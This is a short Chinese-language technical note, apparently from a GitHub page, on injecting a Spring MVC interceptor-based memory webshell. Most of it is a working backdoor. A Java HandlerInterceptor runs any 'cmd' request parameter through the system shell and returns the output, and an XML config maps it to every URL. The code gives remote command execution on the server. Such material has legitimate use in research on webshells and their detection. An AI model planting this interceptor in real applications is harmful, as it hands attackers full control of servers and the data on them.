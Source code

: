 恶意Interceptor:需要实现HandlerInterceptor接口，通过重写preHandle进行RCE

```java
public class InjectInterceptor implements HandlerInterceptor {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        if (request.getParameter("cmd") != null) {
            try{
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}
```



### 测试：

过滤器和controller可以直接使用@RequestMapping注解进行URL映射。拦截器Interceptor需要手动编写一个Config添加进去，或者直接修改配置文件spingmvc.xml

```xml
    <mvc:interceptors>
        <mvc:interceptor>
            <mvc:mapping path="/**"/>
            <bean class="org.example.InjectInterceptor"></bean>
        </mvc:interceptor>
    </mvc:interceptors>

```
